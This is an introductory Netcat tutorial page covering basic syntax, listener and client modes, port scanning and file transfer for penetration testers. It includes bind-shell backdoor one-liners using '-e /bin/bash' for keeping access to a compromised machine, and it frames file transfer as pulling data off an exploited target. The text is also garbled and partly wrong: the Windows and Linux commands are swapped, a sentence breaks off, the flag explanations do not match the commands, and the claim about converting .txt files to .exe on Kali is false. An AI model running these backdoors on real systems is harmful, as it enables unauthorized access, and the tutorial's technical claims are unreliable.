 ### Introduction
Netcat is a network analysis tool developed for security specialists and hackers to analyze a network in traffic.

It is considered a `swiss-army knife` in information technology as it 

At its early stages, netcat was developed to open up UDP/TCP connections between two machines from any desired port.

Over time, it has been improved and now it is used for port scanning, port forwarding, file transfer, and also remote administration. This article will help us understand how Netcat performs these operations.

Netcat can further be used as a back-end device that can be used or driven by other programs or scripts.

It is also a must-have tool for pen-tester since it is essential for network debugging and investigation.

### Goals
In this tutorial, we will mainly focus on the following:
- [Executing general Netcat commands](#executing-commands-on-netcat)
- [Modes of running Netcat](#modes-of-running-netcat)
- [Uses of Netcat](#uses-of-netcat)

### Executing commands on Netcat
Netcat is only available in the command-line interface. You can access Netcat on the `command line` on Windows and `bash terminal` on Linux.

Below is the common Netcat command syntax:

```bash
nc [options][target_ip address][port]
```

Now, let's discuss some actions that can be executed via Netcat.

#### 1. Help
To start with, you might want to know the commands you will interact with in your Netcat journey. Run the `nc -help` or `nc -h` command to list all the commands available in Netcat as shown below.

![Help Command Output](/engineering-education/introduction-to-netcat/help.png)

#### 2. Connecting Server
To achieve this, you have to access a port where a particular service is running and execute the code linking it with the Netcat commands.

The syntax is as shown below.

```bash
nc [IP Address] [Port Number] # for both the target machine.
```

Example:

```bash
nc 192.168.234.128 8080
```

In the example above, we have connected the internet accessing service via port number `8080` with the IP address `192.168.234.128`.

#### 3. Connecting two machines
To do this, we will have to set one device as the **Initiator** and the other device as the **Listener**. In our case, we will use Kali Linux as the initiator and the Windows machine as the listener.

**Creating the listener** - First, let's create the listening Machine which in our case is Windows 10. To successfully do so, run the following Netcat command:

```bash
nc -lvp 4444
```

In the command above:

- `l` - Setting up listening mode.
- `v` - Setting verbose.
- `p` - Setting up port number.

**Creating the initiator** - Creating the initiator is simple as you only need to run the IP address of the listening machine followed by the port number.

See the example is as shown below.

```bash
nc 192.168.234.128 8080
```

#### 4. Creating a backdoor
After getting a Meterpreter shell back or successfully exploiting a device, you might need to maintain your access so you can get back to the target device at any time. With Netcat, you can run a one-line command to achieve this. This is called creating a backdoor.

For Windows, use: `nc -l -p 21 -e /bin/bash`

For Linux use: `nc -l -p 21 -e hack.exe`

#### 5. Saving output
Information gathering is one of the most important fundamentals in penetration testing. To save the information gathered as the output from Netcat, we will use the parameter `-o` followed by the location to save the output as shown below.

```bash
nc 192.168.234.128 8080 -v -o /Desktop/Output.txt
```

### Modes of running Netcat
We have two common modes of running Netcat:

1. **Client mode/ initiator mode**

As we discussed earlier, the client or initiator mode always starts the connection to the listener.

2. **Listener Mode**

To set up the listener, we need the `port` number. The command also contains the `listening` and `verbose` commands.

### Uses of Netcat
1. **Port Scanning**

For every hacker or penetration tester, before performing any attack, you need to spot weak links or vulnerabilities in a target system. There are several ways to achieve this and one of them is `port scanning`.

Port scanning is the act of running a network analysis on a system to determine open or closed ports on a specific target machine.

This can be done by specifying the IP address of the target machine and setting up some parameters as shown in the syntax below.

```bash
nc -v -w2 -z [target_ip] 20-40
```

From the example above, the parameters are set to perform the following actions.

- `v` - **Verbose** means to give detailed information about the port being scanned.
- `z` - Prevents sending data to any TCP thus enabling fast scanning of ports.
- `i` - It inserts a delay between each port probe to limit scanning speed.

Even though Netcat can be used for Port scanning, it is however not the top-ranked tool for port scanning. The recommended tool is [NMAP](https://www.section.io/engineering-education/nmap-network-scanner/).

2. **Data/ File transfer**

After successfully exploiting a target machine and you have control over it, you may need Netcat for the post-exploitation phase. This is where you remotely run commands on the target machine using your local machine.

In some cases, you may want to transfer files or some data into the local machine which is mostly a Kali Linux machine since it is the recommended OS for penetrating testing.

To learn more about Kali Linux, go through [this article](https://www.section.io/engineering-education/getting-started-with-kali-linux/).

The example below explains how to transfer files using Netcat.

Let's take a sample text file named `test.txt` which in this case is in our targets device storage. To transfer the file into our local machine, run the Netcat command below on the target device either remotely or physically.

This is to purposefully set up a listener on the target device.

```bash
nc –l –p 21 >test.txt
```

In the command above, we have specified the port number 21 by preceding the `-p` command which is used to initialize the port number.

We have also set up the machine to the listening mode by using the `-l` command.

After successfully setting up a listener, we can therefore set up an initiator on our local machine by running the following command.

```bash
nc destination 21 <test.txt
```

By now, you may have noticed that we have set up client mode to connect to any listener open on port 21. We have to state the `destination` of our initiator by providing the listening port number and the name of the file to transfer.

To show the output of what is contained in the file, run the `type` command on Windows and the `echo` command on Kali Linux.

```bash
type test.txt
```

For Kali Linux, you will have to convert the `.txt` file to executable format `.exe` since Kali Linux cannot run Windows files with the `.txt` extension.

```bash
echo test.exe
```

### Conclusion
From what we have learned, we can agree that Netcat is a must-have tool for a penetration tester. It is easy to learn and allows execution of a wide range of actions as mentioned in this tutorial. Netcat is therefore recommended for penetration testing.
